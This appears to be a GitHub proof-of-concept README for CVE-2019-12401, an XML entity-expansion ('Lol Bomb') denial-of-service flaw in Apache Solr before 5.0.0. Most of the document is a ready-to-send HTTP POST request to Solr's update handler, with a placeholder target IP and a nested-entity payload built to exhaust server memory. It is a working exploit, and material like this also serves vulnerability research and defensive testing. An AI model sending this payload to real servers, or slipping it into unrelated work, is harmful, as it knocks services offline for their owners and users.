 # CVE-2019-12401: XML Bomb in Apache Solr versions prior to 5.0.0

Solr versions prior to 5.0.0 are vulnerable to an XML resource consumption attack (a.k.a. Lol Bomb) via its update handler.
<br/>
By leveraging XML DOCTYPE and ENTITY type elements, the attacker can create a pattern that will expand when the server parses the XML causing OOMs.

### Proof Of Concept:

##### Request:

```
POST /solr/collection1/update?wt=json HTTP/1.1
Host: <TARGET_IP>:8983

<!DOCTYPE data [
<!ENTITY lol "lol">
<!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;"> 
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;"> 
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;"> 
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;"> 
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<add>
<doc>
<field name="id">&lol9;</field>
<field name="title">change.me</field>
</doc>
</add>
```

##### Result:
<img src="Lol%20bomb%20Result.png">

